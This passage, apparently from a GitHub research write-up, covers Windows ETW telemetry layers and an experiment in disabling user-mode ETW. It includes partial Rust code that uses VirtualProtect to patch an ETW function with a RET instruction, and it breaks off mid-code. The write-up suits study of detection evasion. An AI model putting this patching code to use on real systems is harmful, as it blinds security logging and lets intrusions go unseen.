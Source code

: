 **Kernel-Mode Layer:**
- Located in ntoskrnl.exe
- Core function: `nt!EtwWrite`
- Operates in Ring 0
- Protected by Kernel Patch Protection (PatchGuard)
- Not accessible from user-mode processes

### Security Event Flow

Process creation events (Event ID 4688) follow this path:

```
CreateProcess() → kernel32.dll
    ↓
NtCreateUserProcess() → ntdll.dll
    ↓
Syscall transition to NT Kernel (Ring 0)
    ↓
    ├─ User-mode ETW provider (ntdll!EtwEventWrite)
    └─ Kernel-mode ETW provider (nt!EtwWrite)
```

Both layers generate telemetry independently, creating redundancy in the logging architecture.

## Methodology

### Test Environment

- Operating System: Windows 11 Professional (Build 22631)
- Security: Microsoft Defender enabled with real-time protection
- Tools: Rust 1.75.0, Windows SDK 10.0.22621.0
- Monitoring: Event Viewer, Sysmon 15.0

### Experiment 1: VirtualProtect-Based ETW Patching

**Objective:** Disable user-mode ETW through memory modification

**Implementation:**

```rust
use std::ptr;
use winapi::um::memoryapi::VirtualProtect;
use winapi::um::winnt::{PAGE_EXECUTE_READWRITE, PAGE_EXECUTE_READ};

unsafe fn patch_etw_function(function_address: *mut u8) -> Result<(), String> {
    let mut old_protect = 0u32;
    
    // Change memory protection to writable
    let result = VirtualProtect(
        function_address as *mut _,
        1,
        PAGE_EXECUTE_READWRITE,
        &mut old_protect
    );
    
    if result == 0 {
        return Err("VirtualProtect failed".to_string());
    }
    
    // Patch with RET instruction (0xC3)
    ptr::write(function_address, 0xC3);
    
    // Restore original protection
    VirtualProtect(
        function_address as *mut _,
        1,
```